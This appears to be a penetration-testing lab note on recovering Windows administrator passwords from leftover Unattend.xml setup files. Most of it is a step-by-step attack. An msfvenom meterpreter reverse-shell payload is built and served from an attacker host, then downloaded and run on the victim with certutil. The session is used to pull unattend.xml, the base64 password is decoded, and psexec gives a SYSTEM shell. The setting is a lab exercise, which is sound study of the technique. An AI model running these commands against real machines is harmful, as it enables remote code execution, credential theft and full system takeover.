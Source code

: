 # Searching For Passwords In Configuration Files

## Explanation

### Windows Configuration Files

- Windows can automate a variety of repetitive tasks, such as the mass rollout or installation of Windows on many systems.

- This is typically done through the use of the Unattended Windows Setup utility, which is used to automate the mass installation/deployment of Windows on systems.

- This tools utilizes configuration files that contain specific configurations and user account credentials, specifically the Administrator account's password.

- If the Unattended Windows Setup configuration files are left on the target system after installation, they can reveal user account credentials that can be used by attackers to authenticate with Windows target legitimately.

### Unattended Windows Setup

- The Unattended Windows Setup utility will typically utilize one of the following configuration files that contain user account and system configuration information :
    - C:\Windows\Panther\Unattend.xml
    - C:\Windows\Panther\Autounattend.xml

- As a security precaution, the passwords stored in the Unattended Windows Setup configuration file may be encoded in base64.

## Technics

### In Kali machine

1. Create meterpreter reverse shell payload :
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<kali-ip> LPORT=1234 -f exe > payload.exe
```

2. Start local web server in actual directory :
```
python -m SimpleHTTPServer 80
```

3. New tab, and start listener : 
```
service postgresql start && msfconsole
msf6 > use multi/handler
msf6 > set payload windows/x64/meterpreter/reverse_tcp
msf6 > set LPORT 1234
msf6 > set LHOST <kali-ip>
msf6 > run
```

### In Victim machine

4. Download your payload, and execute :
```
C:\Users\student> cd C:\Users\student\AppData\Local\Temp
C:\Users\student\AppData\Local\Temp>certutil -urlcache -f http://<kali-ip>/payload.exe payload.exe
C:\Users\student\AppData\Local\Temp>.\payload.exe
```

### Unattend.xml file (in Kali machine)

5. We have an meterpreter access in victim machine.

Search and download unattend.xml configuration file in your Kali machine : 
```
meterpreter > search -f unattend.xml
meterpreter > cd C:\\Windows\\Panther
meterpreter > download unattend.xml
```

6. Search AutoLogon balise in xml file, and copy/paste password base64 encoded in new file (password.txt) : 

![Password base64 encoded](../../../../Media/Searching-For-Passwords-In-Windows-Configuration-Files/password-base64.png)

```
vim password.txt
base64 -d password.txt
```

7. Finally, connect remotely to the victim's machine :
```
psexec.py Administrator@<victim-ip>

Password: <password>

C:\Windows\system32>whoami
nt_authority\system
```